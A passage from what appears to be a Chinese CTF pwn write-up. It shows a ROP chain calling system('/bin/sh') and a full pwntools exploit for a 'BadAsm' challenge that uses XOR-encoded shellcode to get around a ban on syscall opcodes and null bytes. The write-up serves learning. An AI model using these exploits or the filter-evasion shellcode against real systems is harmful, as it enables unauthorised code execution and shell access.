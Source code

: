 ```python
payload = b'a' * 0x18 + p64(ret)
payload += p64(rdi)
payload += p64(bin_sh)
payload += p64(system)

payload = decrypt(payload, key, len(payload))
p.sendline(payload)
p.interactive()
```
![[Pasted image 20241006022233.png]]
运行后获取flag
### BadAsm(复现)
本题为一道shellcode的题目，需手动编写一段shellcode输入来获取shellcode，程序限制了不能使用`syscall/sysenter/int 0x80`机器码，由于使用`strcpy`来将我们编写的`shellcode`输入至栈上，同时不能含有`\x00`。
这道题我采用异或出syscall的机械码后直接执行的方法
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')
local = True
if local:
    p = process('./BadAsm')
    # pwnlib.gdb.attach(p, 'b *$rebase(0x147f)')
else:
    p = remote('')
'/bin/sh\x00 = 0068 732F 6E69 622F'

shellcode='''
    mov rsp, rdi
    add sp, 0x0848 ; //赋予rsp合法值，否则会无法运行push/pop
    
    mov rsi, 0x4028336F2E29226F
    mov rdx, 0x4040404040404040
    xor rsi, rdx ; //用异或搓出/bin/sh\x00，这里必须用寄存器存，不然应该是会超出xor的处理长度(应该是这个意思)
    ; //mov rsi, 0x4028336F2E29226F
    ; //xor rsi, 0x4040404040404040
    ; //上面这种不行
    push rsi ; //push后会直接存在rsp中
    
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx ; //将binsh的地址存入rdi，设置rsi,rdx
    xor rax, rax
    mov al, 59 ; //设置rax的值为59，既execve的系统调用号
    
    mov cx, 0x454f
    xor cx, 0x4040
    push rcx ; //异或出syscall的机械码
    jmp rsp
'''

p.sendafter("Input your Code :", asm(shellcode))

p.interactive()
```
运行后获取sh
![[Pasted image 20241031084439.png]]
